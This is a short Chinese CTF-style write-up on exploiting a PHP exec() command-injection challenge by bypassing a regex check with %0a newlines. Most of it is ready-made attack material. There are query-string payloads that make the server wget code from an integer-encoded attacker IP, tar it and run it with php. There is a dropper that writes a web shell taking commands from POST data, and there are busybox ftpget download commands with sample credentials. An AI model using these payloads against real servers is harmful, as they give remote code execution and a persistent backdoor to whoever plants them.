 
1. wget支持长号码格式解析IP主机：
   [在线ip转int,ip转数字-BeJSON.com](https://www.bejson.com/convert/ip2int/)
2. 寻找无需破折号的命令，利用tar将一个非压缩存档传递给php解释器
3. 在`/^\w+$\`中的`$`当遇到一个字符串的结尾是换行符时还是可以匹配的。利用这个特性，就可以绕过前面的`preg_match()`检查，同时多出的换行符还可以在`exec()`函数中执行正则可以利用%0a换行绕过来rce

```php
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```

```
?args[]=x%0a
&args[]=mkdir
&args[]=exploit%0a

?args[]=x%0a
&args[]=cd
&args[]=exploit%0a
&args[]=wget
&args[]=1996740904%0a

?args[]=x%0a
&args[]=tar
&args[]=cvf
&args[]=archived
&args[]=exploit%0a

?args[]=x%0a
&args[]=php
&args[]=archived%0a
```

然后把这个往服务器上一放

```php
<?php
file_put_contents('a.php', '<?php exec($_POST[1]);?>');
?>
```

还有其他：

[Kali Linux（Debian）安装FTP服务器vsftpd教程_镜花水月-文文的博客-CSDN博客](https://blog.csdn.net/weixin_47830774/article/details/121865655)

```
busybox ftpget ...

busybox ftpget -u ftp的用户名 -p ftp的密码 ftp地址 需要下载的文件名
?args[]=xxx%0a&args[]=busybox&args[]=ftpget&args[]=%2du&args[]=uftp&args[]=%2dp&args[]=hhhadminaaa&args[]=1996740904&args[]=a.php

twistd telnet ...

wget HEX_IP
// 给个 302 Redirect 到 FTP protocol 上，也是这题解法中最讶异的XD
// 本来还检查过 wget source code 想说产生的 index.html 应该不可控，结果居然到 FTP Protocol 上竟然就可以控  
```
